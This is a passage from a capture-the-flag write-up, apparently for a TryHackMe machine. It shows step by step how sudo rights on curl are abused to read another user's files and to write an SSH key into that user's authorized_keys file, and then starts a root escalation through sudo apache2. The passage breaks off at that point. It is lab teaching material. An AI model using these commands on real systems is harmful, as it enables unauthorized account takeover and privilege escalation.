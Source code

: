 With that we can read the flag, in curl you can specify multiple URLs at once so we can append the file path which curl supports too as a URL.
```terminal
sudo -u dolivaw /usr/bin/curl 127.0.0.1/harm/to/self/server_info.php file:///home/dolivaw/user.txt
THM{THISISNOTTHEFLAG}
```

To get a shell as this user you can use `-o` option which allows you to write to files. We can generate a SSH key and write it to the users `.ssh` directory.

I generated ssh keys and copied the contents of `id_rsa.pub` to `/tmp/authorized_keys` on the server.
```terminal
$ ssh-keygen -t rsa -b 4096     
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): id_rsa
Enter passphrase for "id_rsa" (empty for no passphrase):
```

Then I used this command to save the keys to the `.ssh` directory.

```terminal
sudo -u dolivaw /usr/bin/curl 127.0.0.1/self/harm/ file:///tmp/authorized_keys -o /tmp/a -o /home/dolivaw/.ssh/authorized_keys
```

> **Note:** I first used `ssh-keygen` without arguments, but the key generating method wasn't accepted on the remote machine. Be sure to run the command like above. The [Elliptic curve algorithm](https://en.wikipedia.org/wiki/Curve25519) was not accepted.
{: .prompt-warning }

Now you can login to the dolivaw account.
```terminal
ssh -i id_rsa dolivaw@10.10.181.45 
dolivaw@ubuntu-jammy:~$
```

## Privilege escalation root

As the new user we have new sudo rights.

```
$ sudo -l
Matching Defaults entries for dolivaw on ubuntu-jammy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User dolivaw may run the following commands on ubuntu-jammy:
    (ALL) NOPASSWD: /usr/sbin/apache2
```

We can use the `/usr/sbin/apache2`. To leak the flag here you need to copy the config file of Apache2, because there is a error in it.
```terminal
cp /etc/apache2/apache2.conf /tmp/apache2.conf
```
Now comment out line 80 with `nano /tmp/apache2.conf` to:
```
#DefaultRuntimeDir ${APACHE_RUN_DIR}
```
